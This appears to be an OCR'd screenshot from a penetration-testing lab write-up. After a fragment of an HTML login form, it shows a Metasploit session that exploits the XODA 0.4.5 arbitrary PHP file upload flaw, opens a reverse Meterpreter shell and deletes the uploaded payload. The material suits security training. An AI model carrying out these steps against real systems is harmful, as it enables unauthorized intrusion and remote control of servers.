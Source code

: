 ```
                <p>Password:&nbsp;<input type="password" name="password" /></p>
                <p><input type="submit" name="submit" value="login" /></p>
        </form>
</body>
</html>
```

```
msf5 > search XODA

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/webapp/xoda_file_upload  2012-08-21       excellent  Yes    XODA 0.4.5 Arbitrary PHP File Upload Vulnerability


msf5 > use exploit/unix/webapp/xoda_file_upload
msf5 exploit(unix/webapp/xoda_file_upload) > show options

Module options (exploit/unix/webapp/xoda_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /xoda/           yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   XODA 0.4.5


msf5 exploit(unix/webapp/xoda_file_upload) > set RHOSTS 192.67.240.3
RHOSTS => 192.67.240.3
msf5 exploit(unix/webapp/xoda_file_upload) > set TARGETURI /
TARGETURI => /
msf5 exploit(unix/webapp/xoda_file_upload) > exploit

[*] Started reverse TCP handler on 192.67.240.2:4444 
[*] Sending PHP payload (PMCkzwsdIt.php)
[*] Executing PHP payload (PMCkzwsdIt.php)
[*] Sending stage (38288 bytes) to 192.67.240.3
[*] Meterpreter session 1 opened (192.67.240.2:4444 -> 192.67.240.3:54718) at 2022-12-01 08:50:41 +0000
[!] Deleting PMCkzwsdIt.php

meterpreter > 
```
